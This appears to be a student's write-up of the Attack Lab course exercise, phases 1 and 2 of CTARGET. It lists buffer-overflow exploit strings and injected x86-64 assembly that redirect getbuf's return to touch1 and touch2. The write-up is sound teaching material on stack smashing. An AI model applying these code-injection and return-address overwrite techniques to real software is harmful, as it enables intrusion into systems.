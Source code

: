 * Phase 1

CTARGET Level 1

The stack space of ~getbuf~ is ~0x28~. The address of ~touch1~ is
~0x4017c0~. Thus, the exploit string should consists of 40 bytes of
random garbage and a 8-byte wide ~0x4017c0~.

The string that used by =hex2raw= to generate the actual input string:

#+begin_example
c0 17 40 00 00 00 00 00
c0 17 40 00 00 00 00 00
c0 17 40 00 00 00 00 00
c0 17 40 00 00 00 00 00
c0 17 40 00 00 00 00 00
c0 17 40 00 00 00 00 00
#+end_example

* Phase 2

In phase 2 we are going to inject the following code into the
program.

#+begin_src asm
          mov $0x59b997fa, %rdi
          mov $0x4017ec, (%rsp)
          ret
#+end_src

To be more specific, the code is injected to the buffer of the ~getbuf~
function. We also have to make ~getbuf~ returns to the starting address
of the buffer, which is =0x5561dc78=.

The final string we feed to =hex2raw= is:

#+begin_example
48 c7 c7 fa 97 b9 59 48 c7 04 24 ec 17 40 00 c3
78 dc 61 55 00 00 00 00
78 dc 61 55 00 00 00 00
78 dc 61 55 00 00 00 00
78 dc 61 55 00 00 00 00
#+end_example

Though this piece of code successfully called ~touch2~, it also
generates a segmentation fault. I think it is because we overwrite the
value where ~%rsp~ is pointing to. Instead of move, let's try ~push~. The
new injected code is:

#+begin_src asm
          mov $0x59b997fa, %rdi
          push $0x4017ec
          ret
#+end_src

The corresponding string that we feed to =hex2raw= is:

#+begin_example
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
00 00 00
78 dc 61 55 00 00 00 00
78 dc 61 55 00 00 00 00
78 dc 61 55 00 00 00 00
78 dc 61 55 00 00 00 00
#+end_example
